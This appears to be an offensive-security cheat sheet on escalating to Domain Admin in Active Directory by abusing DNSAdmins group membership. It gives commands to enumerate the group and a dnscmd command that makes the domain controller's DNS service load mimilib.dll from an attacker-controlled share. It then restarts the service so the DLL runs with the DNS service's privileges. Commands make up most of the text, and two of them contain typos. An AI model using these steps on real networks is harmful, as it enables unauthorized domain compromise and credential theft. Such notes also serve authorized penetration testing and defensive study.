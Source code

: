 # Domain Enumeration - DNSAdmins


Members of `DNSAdmins` could load arbitary DLL with the privileges of dns.exe , if Domain Controller (DC) servers as DNS , we can perform escalation to Domain Admins (DA)

## Powerview

### Enumerate members of DNSAdmins group

```
Get-NetGroupMember -GroupName "DNSAdmins"
```

## AD Module

### Enumerate members of DNSAdmins group

```
Get-ADGroupMember -Identity DNSAdmins
```

### Configure DLL using `dnscmd.exe`
```
dnscmdd dc-name or 127.0.0.1 /config /serverlevelplugindll \\your_attacker_ip\dll\mimilib.dll
```

### Restart dns service

```
sc.exe stop dns
sc.exe sart dns
```



Or alternatively follow this 


https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b